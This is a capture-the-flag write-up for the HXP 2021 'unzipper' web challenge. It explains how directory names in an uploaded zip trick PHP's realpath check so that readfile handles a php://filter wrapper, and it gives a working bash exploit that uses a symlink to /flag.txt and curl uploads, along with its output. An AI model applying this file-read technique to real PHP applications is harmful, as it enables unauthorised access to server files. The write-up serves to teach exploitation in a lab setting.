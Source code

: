 ```yaml
---
title: "HXP 2021 - unzipper (Web)"
header:
  overlay_image: /assets/images/hxp-2021/header.png
  overlay_filter: 0.5
  caption: "Photo credit: HXP CTF Organisers"

tags:
  - hxp
  - writeup
  - web
  - realpath
  - filters
  - php
  - zip
---
```


Summary: The PHP function realpath can be tricked to allow other protocol wrappers to be used in
readfile by specially crafting the directories in an unzipped zip file.

## Challenge Prompt

```
unzipper
by hlt
web
Difficulty estimate: medium - medium

Points: round(1000 · min(1, 10 / (9 + [49 solves]))) = 172 points

Description:
Here, let me unzip that for you.

hxp's seal of open source web quality

Download:
unzipper-344248a9240214c2.tar.xz (2.0 KiB)

Connection (mirrors):
http://65.108.176.76:8200/
```

Attachment: [challenge file]({{ site.url }}{{ site.baseurl }}/assets/files/hxp-2021/unzipper-344248a9240214c2.tar.xz)

## Solution

There is only one important PHP script, `index.php`.

```php
<?php
session_start() or die('session_start');

$_SESSION['sandbox'] ??= bin2hex(random_bytes(16));
$sandbox = 'data/' . $_SESSION['sandbox'];
$lock = fopen($sandbox . '.lock', 'w') or die('fopen');
flock($lock, LOCK_EX | LOCK_NB) or die('flock');

@mkdir($sandbox, 0700);
chdir($sandbox) or die('chdir');

if (isset($_FILES['file']))
    system('ulimit -v 8192 && /usr/bin/timeout -s KILL 2 /usr/bin/unzip -nqqd . ' . escapeshellarg($_FILES['file']['tmp_name']));
else if (isset($_GET['file']))
    if (0 === preg_match('/(^$|flag)/i', realpath($_GET['file']) ?: ''))
        readfile($_GET['file']);

fclose($lock);
```

All operations occur in a sandboxed directory generated for each new session.

It has two important paths:

* If a file is uploaded, it will be unzipped in the sandboxed directory.
* Otherwise, if a `file` GET parameter is provided, it performs the following:
    1. Check if the word 'flag' is not in the path resolved by `realpath($_GET['file'])`.
    2. If it passes, run `readfile($_GET['file'])`.

Note that a symbolic link is not possible to be used directly. From the [man page for
realpath](https://man7.org/linux/man-pages/man3/realpath.3.html):

```
       realpath() expands all symbolic links and resolves references to
       /./, /../ and extra '/' characters in the null-terminated string
       named by path to produce a canonicalized absolute pathname.  The
       resulting pathname is stored as a null-terminated string, up to a
       maximum of PATH_MAX bytes, in the buffer pointed to by
       resolved_path.  The resulting path will have no symbolic link,
       /./ or /../ components.
```

The problem here is that `realpath` and `readfile` contain an incongruence in the way they process
the path passed to it. [Protocol schemes and wrappers](https://www.php.net/manual/en/wrappers.php)
can be specified in the input to `readfile` but `realpath` expects a strict unix path. Thus, we can
use this confusion in conjunction with our ability to create directories and files with the zip file
to force `realpath` into resolving a valid UNIX path but cause `readfile` to process a `php://` URI.

To execute `readfile("php://filter/convert.base64-encode/resource=exploit")`, we need the following
directory structure:

```
php:/
php:/filter/
php:/filter/convert.base64-encode/
php:/filter/convert.base64-encode/resource=exploit
```

This allows us to read from the `exploit` file which can be a symlink to `/flag.txt`. Zipping up
this directory structure plus the symlink and triggering the file read path grants us the flag.

The exploit is as follows. This could probably have been simplified with the `file://` scheme but
this probably demonstrates the directory structure better.

```bash
#!/bin/bash

rm -rf exploit.dir
mkdir -p exploit.dir
pushd exploit.dir

TARGET='http://65.108.176.76:8200'
EPATH='php://filter/convert.base64-encode/resource=exploit'

mkdir -p $EPATH
ln -s /flag.txt exploit
zip -y -r exploit.zip *

curl -H 'Cookie: PHPSESSID=e0pabhfs43a7i8q3plo0ghs6i8' $TARGET -F "file=@exploit.zip"
curl -s -H 'Cookie: PHPSESSID=e0pabhfs43a7i8q3plo0ghs6i8' "$TARGET/?file=$EPATH" | base64 -d

echo
popd
```

Running the exploit to get the flag:

```console
vagrant@ubuntu-xenial:/vagrant/hxp/unzipper$ bash exploit.sh
/vagrant/hxp/unzipper/exploit.dir /vagrant/hxp/unzipper
  adding: exploit (stored 0%)
  adding: php:/ (stored 0%)
  adding: php:/filter/ (stored 0%)
  adding: php:/filter/convert.base64-encode/ (stored 0%)
  adding: php:/filter/convert.base64-encode/resource=exploit/ (stored 0%)
hxp{at_least_we_have_all_the_performance_in_the_world..._lolphp_:/}

/vagrant/hxp/unzipper
vagrant@ubuntu-xenial:/vagrant/hxp/unzipper$
```

The generated directory containing the zip file and the zipped contents looks like so:

```console
$ find exploit.dir
exploit.dir
exploit.dir/exploit
exploit.dir/exploit.zip
exploit.dir/php:
exploit.dir/php:/filter
exploit.dir/php:/filter/convert.base64-encode
exploit.dir/php:/filter/convert.base64-encode/resource=exploit
```

**Flag:** `hxp{at_least_we_have_all_the_performance_in_the_world..._lolphp_:/}`
